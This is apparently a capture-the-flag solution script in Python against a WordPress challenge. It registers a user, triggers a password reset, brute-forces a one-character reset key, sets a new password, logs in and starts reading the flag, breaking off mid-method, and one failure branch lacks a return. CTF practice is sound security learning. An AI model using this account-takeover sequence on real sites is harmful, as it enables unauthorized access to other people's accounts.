 ```python
		print('[+] Register User')
		headers = {'Content-type':'application/json'}
		data = {'username':f'{self.username}', 'email':f'{self.email}'}
		req = requests.post(urljoin(self.url, '/wp-json/user/v1/create'), json=data, headers=headers)

		return json.loads(req.text)['user_id']

	def reset_password(self):
		data = {'user_id':f'{self.register()}'}
		print('[+] Trigger User Reset Password')
		req = requests.post(urljoin(self.url, '/wp-admin/admin-ajax.php?action=reset_key'), data=data)

		return req.text

	def bruteforceKey(self):
		print('[+] Bruteforce Activation Key')
		charset = './0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz'
		key = ''
		for char in charset:
			req = self.session.get(urljoin(self.url, f'/wp-login.php?action=rp&key={char}&login={self.username}'))
			if 'invalid' not in req.text:
				print(f'[+] Found Key = {char}')
				key += char
				break
			else:
				pass

		return key

	def setnewpass(self):
		print('[+] Setting New Password')
		data = {'pass1':self.newpassword,'pass2':self.newpassword,'rp_key':self.bruteforceKey(),'wp-submit':'Save Password'}
		req = self.session.post(urljoin(self.url, '/wp-login.php?action=resetpass'), data=data)
		if 'Your password has been reset' in req.text:
			return '[+] Success Reset Password'

		else:
			'[+] Reset Password Fail!'

	def loginWordpress(self):
		print('[+] Login to Wordpress')
		headers = {'Cookie':'wordpress_test_cookie=WP Cookie check'}
		data = {'log':self.username, 'pwd':self.newpassword, 'wp-submit':'Log In', 'redirect_to':urljoin(self.url, '/wp-admin/'), 'testcookie':'1'}
		req = self.session.post(urljoin(self.url, '/wp-login.php'), headers=headers, data=data)
		res = self.session.get(urljoin(self.url, '/wp-admin/profile.php'))

		return res.text

	def getNonce(self):
		print('[+] Getting Nonce')
		req = self.session.post(urljoin(self.url, '/wp-admin/admin-ajax.php?action=get_latest_posts'))

		return json.loads(req.text)['data']['nonce']

	def getFlag(self):
		data = {'nonce':self.getNonce()}
		print('[+] Reading Flag')
```

[Linkedin]: https://www.linkedin.com/in/muhammad-ichwan-banua/
[Medium]: https://banua.medium.com
[Github]: https://github.com/banuaa
[Youtube]: https://www.youtube.com/@muhammad.iwn-banua
[Instagram]: https://www.instagram.com/muhammad.iwn